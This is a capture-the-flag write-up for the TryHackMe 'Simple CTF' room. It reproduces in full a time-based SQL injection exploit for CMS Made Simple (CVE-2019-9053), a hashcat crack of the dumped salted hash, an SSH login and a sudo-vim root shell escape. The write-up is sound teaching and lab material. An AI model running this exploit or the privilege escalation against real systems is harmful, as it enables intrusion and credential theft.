


# Simple CTF (THM)
https://tryhackme.com/room/easyctf

## Port scan

### Tool used: nmap
<br>

```
nmap -sV -p21,80,2222 simple.thm

Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-23 18:35 CDT
Nmap scan report for simple.thm (10.10.149.157)
Host is up (0.20s latency).

PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.73 seconds
```

## FTP
We are able to browse FTP anonymously, which leads us to a small bit of information about the system password:

```
ftp simple.thm

Connected to simple.thm.
220 (vsFTPd 3.0.3)
Name (simple.thm:rockzo): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 ftp      ftp          4096 Aug 17  2019 pub
226 Directory send OK.
ftp> cd pub
250 Directory successfully changed.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 ftp      ftp           166 Aug 17  2019 ForMitch.txt
226 Directory send OK.
ftp> get ForMitch.txt
local: ForMitch.txt remote: ForMitch.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for ForMitch.txt (166 bytes).
226 Transfer complete.
166 bytes received in 0.00 secs (3.9577 MB/s)
ftp> 

cat ForMitch.txt 
Dammit man... you'te the worst dev i've seen. You set the same pass for the system user, and the password is so weak... i cracked it in seconds. Gosh... what a mess!
```


## HTTP enumeration

### Tool used: gobuster
<br>

```
gobuster dir --url http://simple.thm --wordlist /usr/share/wordlists/dirb/common.txt 

===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://simple.thm
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/08/23 18:36:01 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 289]
/.htpasswd            (Status: 403) [Size: 294]
/.htaccess            (Status: 403) [Size: 294]
/index.html           (Status: 200) [Size: 11321]
/robots.txt           (Status: 200) [Size: 929]  
/server-status        (Status: 403) [Size: 298]  
/simple               (Status: 301) [Size: 309] [--> http://simple.thm/simple/]
                                                                               
===============================================================
2022/08/23 18:37:33 Finished
===============================================================
```

Browsing the URL indicates the server is running CMS Made Simple (CMSMS):<br><br>


First, we want to see if there are any exploits for this software. As it turns out, there is a CVE for the News module (CVE-2019-9053).<br><br>

<br><br>

We copy the Python code from Exploit Database, then execute it with the arguments indicated in the code:

```py
#!/usr/bin/env python
# Exploit Title: Unauthenticated SQL Injection on CMS Made Simple <= 2.2.9
# Date: 30-03-2019
# Exploit Author: Daniele Scanu @ Certimeter Group
# Vendor Homepage: https://www.cmsmadesimple.org/
# Software Link: https://www.cmsmadesimple.org/downloads/cmsms/
# Version: <= 2.2.9
# Tested on: Ubuntu 18.04 LTS
# CVE : CVE-2019-9053

import requests
from termcolor import colored
import time
from termcolor import cprint
import optparse
import hashlib

parser = optparse.OptionParser()
parser.add_option('-u', '--url', action="store", dest="url", help="Base target uri (ex. http://10.10.10.100/cms)")
parser.add_option('-w', '--wordlist', action="store", dest="wordlist", help="Wordlist for crack admin password")
parser.add_option('-c', '--crack', action="store_true", dest="cracking", help="Crack password with wordlist", default=False)

options, args = parser.parse_args()
if not options.url:
    print "[+] Specify an url target"
    print "[+] Example usage (no cracking password): exploit.py -u http://target-uri"
    print "[+] Example usage (with cracking password): exploit.py -u http://target-uri --crack -w /path-wordlist"
    print "[+] Setup the variable TIME with an appropriate time, because this sql injection is a time based."
    exit()

url_vuln = options.url + '/moduleinterface.php?mact=News,m1_,default,0'
session = requests.Session()
dictionary = '1234567890qwertyuiopasdfghjklzxcvbnmQWERTYUIOPASDFGHJKLZXCVBNM@._-$'
flag = True
password = ""
temp_password = ""
TIME = 1
db_name = ""
output = ""
email = ""

salt = ''
wordlist = ""
if options.wordlist:
    wordlist += options.wordlist

def crack_password():
    global password
    global output
    global wordlist
    global salt
    dict = open(wordlist)
    for line in dict.readlines():
        line = line.replace("\n", "")
        beautify_print_try(line)
        if hashlib.md5(str(salt) + line).hexdigest() == password:
            output += "\n[+] Password cracked: " + line
            break
    dict.close()

def beautify_print_try(value):
    global output
    print "\033c"
    cprint(output,'green', attrs=['bold'])
    cprint('[*] Try: ' + value, 'red', attrs=['bold'])

def beautify_print():
    global output
    print "\033c"
    cprint(output,'green', attrs=['bold'])

def dump_salt():
    global flag
    global salt
    global output
    ord_salt = ""
    ord_salt_temp = ""
    while flag:
        flag = False
        for i in range(0, len(dictionary)):
            temp_salt = salt + dictionary[i]
            ord_salt_temp = ord_salt + hex(ord(dictionary[i]))[2:]
            beautify_print_try(temp_salt)
            payload = "a,b,1,5))+and+(select+sleep(" + str(TIME) + ")+from+cms_siteprefs+where+sitepref_value+like+0x" + ord_salt_temp + "25+and+sitepref_name+like+0x736974656d61736b)+--+"
            url = url_vuln + "&m1_idlist=" + payload
            start_time = time.time()
            r = session.get(url)
            elapsed_time = time.time() - start_time
            if elapsed_time >= TIME:
                flag = True
                break
        if flag:
            salt = temp_salt
            ord_salt = ord_salt_temp
    flag = True
    output += '\n[+] Salt for password found: ' + salt

def dump_password():
    global flag
    global password
    global output
    ord_password = ""
    ord_password_temp = ""
    while flag:
        flag = False
        for i in range(0, len(dictionary)):
            temp_password = password + dictionary[i]
            ord_password_temp = ord_password + hex(ord(dictionary[i]))[2:]
            beautify_print_try(temp_password)
            payload = "a,b,1,5))+and+(select+sleep(" + str(TIME) + ")+from+cms_users"
            payload += "+where+password+like+0x" + ord_password_temp + "25+and+user_id+like+0x31)+--+"
            url = url_vuln + "&m1_idlist=" + payload
            start_time = time.time()
            r = session.get(url)
            elapsed_time = time.time() - start_time
            if elapsed_time >= TIME:
                flag = True
                break
        if flag:
            password = temp_password
            ord_password = ord_password_temp
    flag = True
    output += '\n[+] Password found: ' + password

def dump_username():
    global flag
    global db_name
    global output
    ord_db_name = ""
    ord_db_name_temp = ""
    while flag:
        flag = False
        for i in range(0, len(dictionary)):
            temp_db_name = db_name + dictionary[i]
            ord_db_name_temp = ord_db_name + hex(ord(dictionary[i]))[2:]
            beautify_print_try(temp_db_name)
            payload = "a,b,1,5))+and+(select+sleep(" + str(TIME) + ")+from+cms_users+where+username+like+0x" + ord_db_name_temp + "25+and+user_id+like+0x31)+--+"
            url = url_vuln + "&m1_idlist=" + payload
            start_time = time.time()
            r = session.get(url)
            elapsed_time = time.time() - start_time
            if elapsed_time >= TIME:
                flag = True
                break
        if flag:
            db_name = temp_db_name
            ord_db_name = ord_db_name_temp
    output += '\n[+] Username found: ' + db_name
    flag = True

def dump_email():
    global flag
    global email
    global output
    ord_email = ""
    ord_email_temp = ""
    while flag:
        flag = False
        for i in range(0, len(dictionary)):
            temp_email = email + dictionary[i]
            ord_email_temp = ord_email + hex(ord(dictionary[i]))[2:]
            beautify_print_try(temp_email)
            payload = "a,b,1,5))+and+(select+sleep(" + str(TIME) + ")+from+cms_users+where+email+like+0x" + ord_email_temp + "25+and+user_id+like+0x31)+--+"
            url = url_vuln + "&m1_idlist=" + payload
            start_time = time.time()
            r = session.get(url)
            elapsed_time = time.time() - start_time
            if elapsed_time >= TIME:
                flag = True
                break
        if flag:
            email = temp_email
            ord_email = ord_email_temp
    output += '\n[+] Email found: ' + email
    flag = True

dump_salt()
dump_username()
dump_email()
dump_password()

if options.cracking:
    print colored("[*] Now try to crack password")
    crack_password()

beautify_print()
```

```
python2 simple.py  -u http://simple.thm/simple --crack -w /usr/share/wordlists/rockyou.txt
```

<br><br>

As we can see, the script was not able to crack the password due to host issues; however, that is no problem since we have both the password hash and the password salt. Using *hashcat*, we can easily crack the password.

## Password cracking

### Tool used: hashcat
<br>

After creating a file with the salt and hash combined, we launch *hashcat* and quickly get the password:

```
## mode 20 for md5($salt.$hash) format; mode 10 for md5($hash.$salt) format; 

hashcat -m 20 -a 0 dumpfile /usr/share/wordlists/rockyou.txt -O

hashcat (v6.1.1) starting...

OpenCL API (OpenCL 1.2 pocl 1.6, None+Asserts, LLVM 9.0.1, RELOC, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
=============================================================================================================================
* Device #1: pthread-AMD Ryzen 5 3600 6-Core Processor, 4364/4428 MB (2048 MB allocatable), 4MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 31
Minimim salt length supported by kernel: 0
Maximum salt length supported by kernel: 51

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Applicable optimizers applied:
* Optimized-Kernel
* Zero-Byte
* Precompute-Init
* Early-Skip
* Not-Iterated
* Prepended-Salt
* Single-Hash
* Single-Salt
* Raw-Hash

Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.

Host memory required for this attack: 65 MB

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

0c01f4468bd75d7a84c7eb73846e8d96:1dac0d92e9fa6bb2:secret
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Name........: md5($salt.$pass)
Hash.Target......: 0c01f4468bd75d7a84c7eb73846e8d96:1dac0d92e9fa6bb2
Time.Started.....: Tue Aug 23 22:57:54 2022 (0 secs)
Time.Estimated...: Tue Aug 23 22:57:54 2022 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  1355.7 kH/s (0.99ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 4096/14344385 (0.03%)
Rejected.........: 0/4096 (0.00%)
Restore.Point....: 0/14344385 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: 123456 -> oooooo

Started: Tue Aug 23 22:57:38 2022
Stopped: Tue Aug 23 22:57:56 2022
```

We are able to login using the credentials we have gathered from the exploit and *hashcat* and obtain the user.txt flag:

```
ssh mitch@simple.thm -p 2222

Warning: Permanently added the ECDSA host key for IP address '[10.10.66.25]:2222' to the list of known hosts.
mitch@simple.thm's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-58-generic i686)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

0 packages can be updated.
0 updates are security updates.

Last login: Mon Aug 19 18:13:41 2019 from 192.168.0.190
$ ls
user.txt
$ cat user.txt	
G00d j0b, keep up!
```

## Privilege escalation
<br>

Checking the sudo privileges indicates we can execute *vim* without a password:

```
sudo -l

User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim
```
<br>

A quick glancec at GTFOBins (https://gtfobins.github.io/gtfobins/vim/) shows us that we can spawn a privileged shell, and ultimately obtain the root.txt flag!

```
sudo vim -c ':!/bin/sh'

# whoami                           
root
# cd /root
# ls
root.txt
# cat root.txt
W3ll d0n3. You made it!
```